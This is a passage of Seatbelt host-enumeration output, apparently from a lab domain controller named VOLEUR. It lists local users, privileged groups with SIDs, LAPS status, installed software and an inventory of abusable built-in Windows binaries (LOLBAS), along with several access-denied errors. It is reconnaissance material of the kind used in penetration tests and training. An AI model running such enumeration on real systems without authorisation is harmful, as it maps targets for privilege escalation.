   at System.Management.ManagementException.ThrowWithExtendedInfo(ManagementStatus errorCode)
   at System.Management.ManagementScope.InitializeGuts(Object o)
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at Seatbelt.Commands.Windows.HotfixCommand.<Execute>d__10.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== IdleTime ======

  CurrentUser : VOLEUR\svc_winrm
  Idletime    : 15h:08m:08s:656ms (54488656 milliseconds)

====== IEFavorites ======

Favorites (svc_winrm):

  http://go.microsoft.com/fwlink/p/?LinkId=255142

====== IETabs ======

ERROR:   [!] Terminating exception running command 'IETabs': System.Reflection.TargetInvocationException: Exception has been thrown by the target of an invocation. ---> System.UnauthorizedAccessException: Access is denied.

   --- End of inner exception stack trace ---
   at System.RuntimeType.InvokeDispMethod(String name, BindingFlags invokeAttr, Object target, Object[] args, Boolean[] byrefModifiers, Int32 culture, String[] namedParameters)
   at System.RuntimeType.InvokeMember(String name, BindingFlags bindingFlags, Binder binder, Object target, Object[] providedArgs, ParameterModifier[] modifiers, CultureInfo culture, String[] namedParams)
   at Seatbelt.Commands.Browser.InternetExplorerTabCommand.<Execute>d__9.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== IEUrls ======

Internet Explorer typed URLs for the last 7 days

====== InstalledProducts ======

  DisplayName                    : Microsoft Edge
  DisplayVersion                 : 138.0.3351.55
  Publisher                      : Microsoft Corporation
  InstallDate                    : 1/1/0001 12:00:00 AM
  Architecture                   : x86

  DisplayName                    : Microsoft Visual C++ 2022 X86 Additional Runtime - 14.40.33816
  DisplayVersion                 : 14.40.33816
  Publisher                      : Microsoft Corporation
  InstallDate                    : 1/1/0001 12:00:00 AM
  Architecture                   : x86

  DisplayName                    : Microsoft Visual C++ 2015-2022 Redistributable (x86) - 14.40.33816
  DisplayVersion                 : 14.40.33816.0
  Publisher                      : Microsoft Corporation
  InstallDate                    : 1/1/0001 12:00:00 AM
  Architecture                   : x86

  DisplayName                    : Microsoft Visual C++ 2015-2022 Redistributable (x64) - 14.40.33816
  DisplayVersion                 : 14.40.33816.0
  Publisher                      : Microsoft Corporation
  InstallDate                    : 1/1/0001 12:00:00 AM
  Architecture                   : x86

  DisplayName                    : Microsoft Visual C++ 2022 X86 Minimum Runtime - 14.40.33816
  DisplayVersion                 : 14.40.33816
  Publisher                      : Microsoft Corporation
  InstallDate                    : 1/1/0001 12:00:00 AM
  Architecture                   : x86

  DisplayName                    : Microsoft Visual C++ 2022 X64 Minimum Runtime - 14.40.33816
  DisplayVersion                 : 14.40.33816
  Publisher                      : Microsoft Corporation
  InstallDate                    : 1/1/0001 12:00:00 AM
  Architecture                   : x64

  DisplayName                    : Microsoft Visual C++ 2022 X64 Additional Runtime - 14.40.33816
  DisplayVersion                 : 14.40.33816
  Publisher                      : Microsoft Corporation
  InstallDate                    : 1/1/0001 12:00:00 AM
  Architecture                   : x64

  DisplayName                    : VMware Tools
  DisplayVersion                 : 13.0.1.0
  Publisher                      : Broadcom Inc.
  InstallDate                    : 1/1/0001 12:00:00 AM
  Architecture                   : x64

====== InterestingFiles ======


Accessed      Modified      Path
----------    ----------    -----
====== InterestingProcesses ======

ERROR:   [!] Terminating exception running command 'InterestingProcesses': System.Management.ManagementException: Access denied
   at System.Management.ManagementException.ThrowWithExtendedInfo(ManagementStatus errorCode)
   at System.Management.ManagementScope.InitializeGuts(Object o)
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at Seatbelt.Commands.Windows.InterestingProcessesCommand.<Execute>d__10.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== InternetSettings ======

General Settings
  Hive                               Key : Value

  HKCU             CertificateRevocation : 1
  HKCU          DisableCachingOfSSLPages : 1
  HKCU                IE5_UA_Backup_Flag : 5.0
  HKCU                   PrivacyAdvanced : 1
  HKCU                   SecureProtocols : 10240
  HKCU                        User Agent : Mozilla/4.0 (compatible; MSIE 8.0; Win32)
  HKCU              ZonesSecurityUpgrade : System.Byte[]
  HKCU                WarnonZoneCrossing : 1
  HKCU                   EnableNegotiate : 1
  HKCU                       ProxyEnable : 0
  HKCU                      MigrateProxy : 1
  HKCU                      ActiveXCache : C:\Windows\Downloaded Program Files
  HKCU                CodeBaseSearchPath : CODEBASE
  HKCU                    EnablePunycode : 1
  HKCU                      MinorVersion : 0
  HKCU                    WarnOnIntranet : 1

URLs by Zone
  No URLs configured

Zone Auth Settings
====== KeePass ======

====== LAPS ======

  LAPS Enabled                          : False
  LAPS Admin Account Name               :
  LAPS Password Complexity              :
  LAPS Password Length                  :
  LAPS Expiration Protection Enabled    :
====== LastShutdown ======

  LastShutdown                   : 7/24/2025 1:20:09 PM

====== LocalGPOs ======

====== LocalGroups ======

Non-empty Local Groups (and memberships)


  ** DC\Pre-Windows 2000 Compatible Access ** (A backward compatibility group which allows read access on all users and groups in the domain)

  WellKnownGroup  NT AUTHORITY\Authenticated Users         S-1-5-11

  ** DC\Windows Authorization Access Group ** (Members of this group have access to the computed tokenGroupsGlobalAndUniversal attribute on User objects)

  WellKnownGroup  NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERS S-1-5-9

  ** DC\Administrators ** (Administrators have complete and unrestricted access to the computer/domain)

  User            VOLEUR\Administrator                     S-1-5-21-3927696377-1337352550-2781715495-500
  Group           VOLEUR\Enterprise Admins                 S-1-5-21-3927696377-1337352550-2781715495-519
  Group           VOLEUR\Domain Admins                     S-1-5-21-3927696377-1337352550-2781715495-512

  ** DC\Users ** (Users are prevented from making accidental or intentional system-wide changes and can run most applications)

  WellKnownGroup  NT AUTHORITY\INTERACTIVE                 S-1-5-4
  WellKnownGroup  NT AUTHORITY\Authenticated Users         S-1-5-11
  Group           VOLEUR\Domain Users                      S-1-5-21-3927696377-1337352550-2781715495-513

  ** DC\Guests ** (Guests have the same access as members of the Users group by default, except for the Guest account which is further restricted)

  User            VOLEUR\Guest                             S-1-5-21-3927696377-1337352550-2781715495-501
  Group           VOLEUR\Domain Guests                     S-1-5-21-3927696377-1337352550-2781715495-514

  ** DC\IIS_IUSRS ** (Built-in group used by Internet Information Services.)

  WellKnownGroup  NT AUTHORITY\IUSR                        S-1-5-17

  ** DC\Remote Management Users ** (Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.)

  User            VOLEUR\jeremy.combs                      S-1-5-21-3927696377-1337352550-2781715495-1109
  User            VOLEUR\svc_winrm                         S-1-5-21-3927696377-1337352550-2781715495-1601

  ** DC\Denied RODC Password Replication Group ** (Members in this group cannot have their passwords replicated to any read-only domain controllers in the domain)

  User            VOLEUR\krbtgt                            S-1-5-21-3927696377-1337352550-2781715495-502
  Group           VOLEUR\Domain Controllers                S-1-5-21-3927696377-1337352550-2781715495-516
  Group           VOLEUR\Schema Admins                     S-1-5-21-3927696377-1337352550-2781715495-518
  Group           VOLEUR\Enterprise Admins                 S-1-5-21-3927696377-1337352550-2781715495-519
  Alias           VOLEUR\Cert Publishers                   S-1-5-21-3927696377-1337352550-2781715495-517
  Group           VOLEUR\Domain Admins                     S-1-5-21-3927696377-1337352550-2781715495-512
  Group           VOLEUR\Group Policy Creator Owners       S-1-5-21-3927696377-1337352550-2781715495-520
  Group           VOLEUR\Read-only Domain Controllers      S-1-5-21-3927696377-1337352550-2781715495-521

====== LocalUsers ======

  ComputerName                   : localhost
  UserName                       : Administrator
  Enabled                        : True
  Rid                            : 500
  UserType                       : Administrator
  Comment                        : Built-in account for administering the computer/domain
  PwdLastSet                     : 1/28/2025 1:35:13 PM
  LastLogon                      : 10/17/2025 11:03:32 AM
  NumLogins                      : 96

  ComputerName                   : localhost
  UserName                       : Guest
  Enabled                        : False
  Rid                            : 501
  UserType                       : Guest
  Comment                        : Built-in account for guest access to the computer/domain
  PwdLastSet                     : 1/1/1970 12:00:00 AM
  LastLogon                      : 1/1/1970 12:00:00 AM
  NumLogins                      : 0

  ComputerName                   : localhost
  UserName                       : krbtgt
  Enabled                        : False
  Rid                            : 502
  UserType                       : User
  Comment                        : Key Distribution Center Service Account
  PwdLastSet                     : 1/29/2025 1:43:06 AM
  LastLogon                      : 1/1/1970 12:00:00 AM
  NumLogins                      : 0

  ComputerName                   : localhost
  UserName                       : ryan.naylor
  Enabled                        : True
  Rid                            : 1103
  UserType                       : User
  Comment                        : First-Line Support Technician
  PwdLastSet                     : 1/29/2025 2:26:46 AM
  LastLogon                      : 10/17/2025 9:55:33 AM
  NumLogins                      : 36

  ComputerName                   : localhost
  UserName                       : marie.bryant
  Enabled                        : True
  Rid                            : 1104
  UserType                       : User
  Comment                        : First-Line Support Technician
  PwdLastSet                     : 1/29/2025 2:21:07 AM
  LastLogon                      : 1/1/1970 12:00:00 AM
  NumLogins                      : 0

  ComputerName                   : localhost
  UserName                       : lacey.miller
  Enabled                        : True
  Rid                            : 1105
  UserType                       : User
  Comment                        : Second-Line Support Technician
  PwdLastSet                     : 1/29/2025 2:20:10 AM
  LastLogon                      : 1/1/1970 12:00:00 AM
  NumLogins                      : 0

  ComputerName                   : localhost
  UserName                       : svc_ldap
  Enabled                        : True
  Rid                            : 1106
  UserType                       : User
  Comment                        :
  PwdLastSet                     : 1/29/2025 2:20:54 AM
  LastLogon                      : 10/17/2025 10:28:51 AM
  NumLogins                      : 30

  ComputerName                   : localhost
  UserName                       : svc_backup
  Enabled                        : True
  Rid                            : 1107
  UserType                       : User
  Comment                        :
  PwdLastSet                     : 1/29/2025 2:20:36 AM
  LastLogon                      : 10/16/2025 8:34:19 PM
  NumLogins                      : 71

  ComputerName                   : localhost
  UserName                       : svc_iis
  Enabled                        : True
  Rid                            : 1108
  UserType                       : User
  Comment                        :
  PwdLastSet                     : 1/29/2025 2:20:45 AM
  LastLogon                      : 1/1/1970 12:00:00 AM
  NumLogins                      : 0

  ComputerName                   : localhost
  UserName                       : jeremy.combs
  Enabled                        : True
  Rid                            : 1109
  UserType                       : User
  Comment                        : Third-Line Support Technician
  PwdLastSet                     : 1/29/2025 8:10:32 AM
  LastLogon                      : 1/30/2025 3:51:02 AM
  NumLogins                      : 2

  ComputerName                   : localhost
  UserName                       : svc_winrm
  Enabled                        : True
  Rid                            : 1601
  UserType                       : User
  Comment                        :
  PwdLastSet                     : 1/31/2025 2:10:12 AM
  LastLogon                      : 10/17/2025 11:32:11 AM
  NumLogins                      : 17

====== LogonEvents ======

ERROR: Unable to collect. Must be an administrator/in a high integrity context.
====== LogonSessions ======

Logon Sessions (via WMI)

ERROR:   [!] Terminating exception running command 'LogonSessions': System.Management.ManagementException: Access denied
   at System.Management.ManagementException.ThrowWithExtendedInfo(ManagementStatus errorCode)
   at System.Management.ManagementScope.InitializeGuts(Object o)
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at Seatbelt.Commands.Windows.LogonSessionsCommand.<Execute>d__10.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== LOLBAS ======

Path: C:\Windows\System32\advpack.dll
Path: C:\Windows\SysWOW64\advpack.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-advpack_31bf3856ad364e35_11.0.20348.2849_none_97c554154ea3835c\advpack.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-advpack_31bf3856ad364e35_11.0.20348.2849_none_a219fe6783044557\advpack.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-advpack_31bf3856ad364e35_11.0.20348.2849_none_97c554154ea3835c\f\advpack.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-advpack_31bf3856ad364e35_11.0.20348.2849_none_97c554154ea3835c\r\advpack.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-advpack_31bf3856ad364e35_11.0.20348.2849_none_a219fe6783044557\f\advpack.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-advpack_31bf3856ad364e35_11.0.20348.2849_none_a219fe6783044557\r\advpack.dll
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-advpack_31bf3856ad364e35_11.0.20348.2849_none_97c554154ea3835c\f\advpack.dll
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-advpack_31bf3856ad364e35_11.0.20348.2849_none_a219fe6783044557\f\advpack.dll
Path: C:\Windows\System32\at.exe
Path: C:\Windows\SysWOW64\at.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-at_31bf3856ad364e35_10.0.20348.1_none_d670a1ed4ceb1c2e\at.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-at_31bf3856ad364e35_10.0.20348.1_none_e0c54c3f814bde29\at.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-atbroker_31bf3856ad364e35_10.0.20348.2849_none_77e28a7950b39577\f\atbroker.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-atbroker_31bf3856ad364e35_10.0.20348.2849_none_823734cb85145772\f\atbroker.exe
Path: C:\Windows\System32\AtBroker.exe
Path: C:\Windows\SysWOW64\AtBroker.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-atbroker_31bf3856ad364e35_10.0.20348.2849_none_77e28a7950b39577\AtBroker.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-atbroker_31bf3856ad364e35_10.0.20348.2849_none_823734cb85145772\AtBroker.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-atbroker_31bf3856ad364e35_10.0.20348.2849_none_77e28a7950b39577\f\AtBroker.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-atbroker_31bf3856ad364e35_10.0.20348.2849_none_77e28a7950b39577\r\AtBroker.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-atbroker_31bf3856ad364e35_10.0.20348.2849_none_823734cb85145772\f\AtBroker.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-atbroker_31bf3856ad364e35_10.0.20348.2849_none_823734cb85145772\r\AtBroker.exe
Path: C:\Windows\System32\bash.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.20348.3692_none_e7f87bdfeedb060f\bash.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.20348.3692_none_e7f87bdfeedb060f\f\bash.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.20348.3692_none_e7f87bdfeedb060f\r\bash.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.20348.3692_none_e7f87bdfeedb060f\f\bash.exe
Path: C:\Windows\System32\bitsadmin.exe
Path: C:\Windows\SysWOW64\bitsadmin.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-bits-bitsadmin_31bf3856ad364e35_10.0.20348.1_none_d6808e85d572a277\bitsadmin.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-bits-bitsadmin_31bf3856ad364e35_10.0.20348.1_none_e0d538d809d36472\bitsadmin.exe
Path: C:\Windows\System32\certutil.exe
Path: C:\Windows\SysWOW64\certutil.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-certutil_31bf3856ad364e35_10.0.20348.2849_none_5dc6e29565baf04f\certutil.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-certutil_31bf3856ad364e35_10.0.20348.2849_none_681b8ce79a1bb24a\certutil.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-certutil_31bf3856ad364e35_10.0.20348.2849_none_5dc6e29565baf04f\f\certutil.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-certutil_31bf3856ad364e35_10.0.20348.2849_none_5dc6e29565baf04f\r\certutil.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-certutil_31bf3856ad364e35_10.0.20348.2849_none_681b8ce79a1bb24a\f\certutil.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-certutil_31bf3856ad364e35_10.0.20348.2849_none_681b8ce79a1bb24a\r\certutil.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-certutil_31bf3856ad364e35_10.0.20348.2849_none_5dc6e29565baf04f\f\certutil.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-certutil_31bf3856ad364e35_10.0.20348.2849_none_681b8ce79a1bb24a\f\certutil.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-audiodiagnostic_31bf3856ad364e35_10.0.20348.1_none_49f67089b8c00ad8\CL_Invocation.ps1
Path: C:\Windows\diagnostics\system\Audio\CL_Invocation.ps1
Path: C:\Windows\WinSxS\amd64_microsoft-windows-videodiagnostic_31bf3856ad364e35_10.0.20348.1_none_0651259807e47dbd\CL_MutexVerifiers.ps1
Path: C:\Windows\diagnostics\system\Video\CL_MutexVerifiers.ps1
Path: C:\Windows\System32\cmd.exe
Path: C:\Windows\SysWOW64\cmd.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-commandprompt_31bf3856ad364e35_10.0.20348.3451_none_337b99854c98c0a4\cmd.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-commandprompt_31bf3856ad364e35_10.0.20348.3451_none_3dd043d780f9829f\cmd.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-commandprompt_31bf3856ad364e35_10.0.20348.3451_none_337b99854c98c0a4\f\cmd.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-commandprompt_31bf3856ad364e35_10.0.20348.3451_none_337b99854c98c0a4\r\cmd.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-commandprompt_31bf3856ad364e35_10.0.20348.3451_none_3dd043d780f9829f\f\cmd.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-commandprompt_31bf3856ad364e35_10.0.20348.3451_none_3dd043d780f9829f\r\cmd.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-commandprompt_31bf3856ad364e35_10.0.20348.3451_none_337b99854c98c0a4\f\cmd.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-commandprompt_31bf3856ad364e35_10.0.20348.3451_none_3dd043d780f9829f\f\cmd.exe
Path: C:\Windows\System32\cmdkey.exe
Path: C:\Windows\SysWOW64\cmdkey.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-s..line-user-interface_31bf3856ad364e35_10.0.20348.1_none_66567048a5de99c6\cmdkey.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-s..line-user-interface_31bf3856ad364e35_10.0.20348.1_none_70ab1a9ada3f5bc1\cmdkey.exe
Path: C:\Windows\System32\cmstp.exe
Path: C:\Windows\SysWOW64\cmstp.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-rascmak.resources_31bf3856ad364e35_10.0.20348.1_en-us_c4b5c0b4f595fcf8\cmstp.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-rasconnectionmanager_31bf3856ad364e35_10.0.20348.1_none_e88f3cf5298c2368\cmstp.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-rasconnectionmanager_31bf3856ad364e35_10.0.20348.1_none_f2e3e7475dece563\cmstp.exe
Path: C:\Windows\System32\comsvcs.dll
Path: C:\Windows\SysWOW64\comsvcs.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-c..fe-catsrvut-comsvcs_31bf3856ad364e35_10.0.20348.2849_none_1b043fd5d23c5880\comsvcs.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-c..fe-catsrvut-comsvcs_31bf3856ad364e35_10.0.20348.2849_none_2558ea28069d1a7b\comsvcs.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-c..fe-catsrvut-comsvcs_31bf3856ad364e35_10.0.20348.2849_none_1b043fd5d23c5880\f\comsvcs.dll
Path: C:\Windows\WinSxS\amd64_microsoft-windows-c..fe-catsrvut-comsvcs_31bf3856ad364e35_10.0.20348.2849_none_1b043fd5d23c5880\r\comsvcs.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-c..fe-catsrvut-comsvcs_31bf3856ad364e35_10.0.20348.2849_none_2558ea28069d1a7b\f\comsvcs.dll
Path: C:\Windows\WinSxS\wow64_microsoft-windows-c..fe-catsrvut-comsvcs_31bf3856ad364e35_10.0.20348.2849_none_2558ea28069d1a7b\r\comsvcs.dll
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-c..fe-catsrvut-comsvcs_31bf3856ad364e35_10.0.20348.2849_none_1b043fd5d23c5880\f\comsvcs.dll
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-c..fe-catsrvut-comsvcs_31bf3856ad364e35_10.0.20348.2849_none_2558ea28069d1a7b\f\comsvcs.dll
Path: C:\Windows\System32\control.exe
Path: C:\Windows\SysWOW64\control.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-control_31bf3856ad364e35_10.0.20348.2849_none_41add3e5dcdc31f0\control.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-control_31bf3856ad364e35_10.0.20348.2849_none_4c027e38113cf3eb\control.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-control_31bf3856ad364e35_10.0.20348.2849_none_41add3e5dcdc31f0\f\control.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-control_31bf3856ad364e35_10.0.20348.2849_none_41add3e5dcdc31f0\r\control.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-control_31bf3856ad364e35_10.0.20348.2849_none_4c027e38113cf3eb\f\control.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-control_31bf3856ad364e35_10.0.20348.2849_none_4c027e38113cf3eb\r\control.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-control_31bf3856ad364e35_10.0.20348.2849_none_41add3e5dcdc31f0\f\control.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-control_31bf3856ad364e35_10.0.20348.2849_none_4c027e38113cf3eb\f\control.exe
Path: C:\Windows\WinSxS\amd64_netfx4-csc_exe_b03f5f7f11d50a3a_4.0.15806.0_none_76ec1420387eb344\csc.exe
Path: C:\Windows\WinSxS\x86_netfx4-csc_exe_b03f5f7f11d50a3a_4.0.15806.0_none_be994af74cfadc4a\csc.exe
Path: C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe
Path: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe
Path: C:\Windows\System32\cscript.exe
Path: C:\Windows\SysWOW64\cscript.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-scripting_31bf3856ad364e35_10.0.20348.3451_none_f0d725de329628b0\cscript.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-scripting_31bf3856ad364e35_10.0.20348.3451_none_fb2bd03066f6eaab\cscript.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-scripting_31bf3856ad364e35_10.0.20348.3451_none_f0d725de329628b0\f\cscript.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-scripting_31bf3856ad364e35_10.0.20348.3451_none_f0d725de329628b0\r\cscript.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-scripting_31bf3856ad364e35_10.0.20348.3451_none_fb2bd03066f6eaab\f\cscript.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-scripting_31bf3856ad364e35_10.0.20348.3451_none_fb2bd03066f6eaab\r\cscript.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-scripting_31bf3856ad364e35_10.0.20348.3451_none_f0d725de329628b0\f\cscript.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-scripting_31bf3856ad364e35_10.0.20348.3451_none_fb2bd03066f6eaab\f\cscript.exe
Path: C:\Windows\System32\desktopimgdownldr.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-p..-personalizationcsp_31bf3856ad364e35_10.0.20348.3451_none_e9611fae0ce596f8\desktopimgdownldr.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-p..-personalizationcsp_31bf3856ad364e35_10.0.20348.3451_none_e9611fae0ce596f8\f\desktopimgdownldr.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-p..-personalizationcsp_31bf3856ad364e35_10.0.20348.3451_none_e9611fae0ce596f8\r\desktopimgdownldr.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-p..-personalizationcsp_31bf3856ad364e35_10.0.20348.3451_none_e9611fae0ce596f8\f\desktopimgdownldr.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-c..otstrapping-service_31bf3856ad364e35_10.0.20348.2849_none_b80e69ffad280fa5\f\devtoolslauncher.exe
Path: C:\Windows\WinSxS\amd64_dfsvc_b03f5f7f11d50a3a_4.0.15806.0_none_c0d3d16c74269fa6\dfsvc.exe
Path: C:\Windows\Microsoft.NET\Framework\v4.0.30319\dfsvc.exe
Path: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\dfsvc.exe
Path: C:\Windows\Microsoft.NET\assembly\GAC_MSIL\dfsvc\v4.0_4.0.0.0__b03f5f7f11d50a3a\dfsvc.exe
Path: C:\Windows\System32\diskshadow.exe
Path: C:\Windows\SysWOW64\diskshadow.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-vssdiskshadow_31bf3856ad364e35_10.0.20348.1_none_bed80216f4f34ba4\diskshadow.exe
Path: C:\Windows\WinSxS\x86_microsoft-windows-vssdiskshadow_31bf3856ad364e35_10.0.20348.1_none_62b966933c95da6e\diskshadow.exe
Path: C:\Windows\System32\dnscmd.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-dns-server-dnscmd_31bf3856ad364e35_10.0.20348.2849_none_8f7812bc807fa342\dnscmd.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-dns-server-dnscmd_31bf3856ad364e35_10.0.20348.2849_none_8f7812bc807fa342\f\dnscmd.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-dns-server-dnscmd_31bf3856ad364e35_10.0.20348.2849_none_8f7812bc807fa342\r\dnscmd.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-dns-server-dnscmd_31bf3856ad364e35_10.0.20348.2849_none_8f7812bc807fa342\f\dnscmd.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-directx-graphics-tools_31bf3856ad364e35_10.0.20348.2849_none_d800f97c8e8f32ae\f\dxcap.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-directx-graphics-tools_31bf3856ad364e35_10.0.20348.2849_none_e255a3cec2eff4a9\f\dxcap.exe
Path: C:\Windows\System32\esentutl.exe
Path: C:\Windows\SysWOW64\esentutl.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-e..ageengine-utilities_31bf3856ad364e35_10.0.20348.2849_none_81cdc7a5f79f7eb0\esentutl.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-e..ageengine-utilities_31bf3856ad364e35_10.0.20348.2849_none_8c2271f82c0040ab\esentutl.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-e..ageengine-utilities_31bf3856ad364e35_10.0.20348.2849_none_81cdc7a5f79f7eb0\f\esentutl.exe
Path: C:\Windows\WinSxS\amd64_microsoft-windows-e..ageengine-utilities_31bf3856ad364e35_10.0.20348.2849_none_81cdc7a5f79f7eb0\r\esentutl.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-e..ageengine-utilities_31bf3856ad364e35_10.0.20348.2849_none_8c2271f82c0040ab\f\esentutl.exe
Path: C:\Windows\WinSxS\wow64_microsoft-windows-e..ageengine-utilities_31bf3856ad364e35_10.0.20348.2849_none_8c2271f82c0040ab\r\esentutl.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\amd64_microsoft-windows-e..ageengine-utilities_31bf3856ad364e35_10.0.20348.2849_none_81cdc7a5f79f7eb0\f\esentutl.exe
Path: C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~20348.3807.1.7\wow64_microsoft-windows-e..ageengine-utilities_31bf3856ad364e35_10.0.20348.2849_none_8c2271f82c0040ab\f\esentutl.exe
